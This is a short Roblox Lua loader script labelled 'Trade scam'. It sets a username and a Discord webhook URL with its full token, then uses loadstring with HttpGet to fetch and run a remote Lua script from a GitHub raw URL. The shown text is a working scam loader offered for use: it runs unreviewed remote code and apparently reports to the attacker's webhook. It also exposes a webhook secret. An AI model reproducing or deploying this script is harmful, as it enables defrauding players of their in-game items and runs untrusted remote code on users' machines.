 
_G.Username = "Ken1Jac0b"
_G.HubName = "Trade scam"
_G.WebhookUrl = "https://discord.com/api/webhooks/1093599683294801920/O7xCNdGOasgDIhA5yNuRNP1137jWJeZAVDapRpBj9Sgw29wdkV_DeJZRpl6d3TdfVrFo"

loadstring(game:HttpGet("https://raw.githubusercontent.com/Jayiioceanii/PeakOnTop/main/peak.lua"))()
